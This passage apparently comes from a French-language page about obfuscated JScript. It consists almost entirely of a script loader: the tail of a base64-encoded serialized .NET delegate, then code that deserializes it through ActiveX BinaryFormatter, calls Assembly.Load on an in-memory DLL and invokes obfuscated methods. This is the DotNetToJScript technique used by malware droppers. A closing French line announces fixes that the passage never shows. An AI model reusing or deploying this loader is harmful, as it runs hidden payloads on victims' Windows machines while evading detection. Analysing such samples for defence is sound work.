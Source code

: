 ```js
"AAAASAAQAAEARgBpAGwAZQBEAGUAcwBjAHIAaQBwAHQAaQBvAG4AAAAAAEUAeABhAG0AcABsAGUA"+
"QQBzAHMAZQBtAGIAbAB5AAAAMAAIAAEARgBpAGwAZQBWAGUAcgBzAGkAbwBuAAAAAAAxAC4AMAAu"+
"ADAALgAwAAAAUgAZAAEASQBuAHQAZQByAG4AYQBsAE4AYQBtAGUAAABBAGkAbgBnAGUAaQBSAGEA"+
"aQA1AEgAYQBoAGYAZQBpAFQAaABlADIALgBkAGwAbAAAAAAAYgAfAAEATABlAGcAYQBsAEMAbwBw"+
"AHkAcgBpAGcAaAB0AAAAQwBvAHAAeQByAGkAZwBoAHQAIACpACAASgBhAG0AZQBzACAARgBvAHIA"+
"cwBoAGEAdwAgADIAMAAxADcAAAAAACoAAQABAEwAZQBnAGEAbABUAHIAYQBkAGUAbQBhAHIAawBz"+
"AAAAAAAAAAAAWgAZAAEATwByAGkAZwBpAG4AYQBsAEYAaQBsAGUAbgBhAG0AZQAAAEEAaQBuAGcA"+
"ZQBpAFIAYQBpADUASABhAGgAZgBlAGkAVABoAGUAMgAuAGQAbABsAAAAAABAABAAAQBQAHIAbwBk"+
"AHUAYwB0AE4AYQBtAGUAAAAAAEUAeABhAG0AcABsAGUAQQBzAHMAZQBtAGIAbAB5AAAANAAIAAEA"+
"UAByAG8AZAB1AGMAdABWAGUAcgBzAGkAbwBuAAAAMQAuADAALgAwAC4AMAAAADgACAABAEEAcwBz"+
"AGUAbQBiAGwAeQAgAFYAZQByAHMAaQBvAG4AAAAxAC4AMAAuADAALgAwAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAADAAAAwAAADgMgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
"AAAAAAAAAAAAAAABDQAAAAQAAAAJFwAAAAkGAAAACRYAAAAGGgAAACdTeXN0ZW0uUmVmbGVjdGlv"+
"bi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkIAAAACgsA";
var aiQu9oof = 'AingeiRai5HahfeiThe2';

try {
	var pohceiC7 = Trololo(dei0eiFu);
	var giigh0Ku = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
	var eeB9Eisa = new ActiveXObject('System.Collections.ArrayList');
	var Aik6iulo = giigh0Ku.Deserialize_2(pohceiC7);
	eeB9Eisa.Add(undefined);
	var Aegh5xei = Aik6iulo.DynamicInvoke(eeB9Eisa.ToArray()).CreateInstance(aiQu9oof);
	
	Aegh5xei.Aa6bi4uidan4shahSee9(dei0eiFu);
	Aegh5xei.Joh8achoo1aepahjeiy9();

} catch (e) {
    debug(e.message);
}
```

C'est une obfusquation assez "polie". Voici ce qu'il y a à corriger :
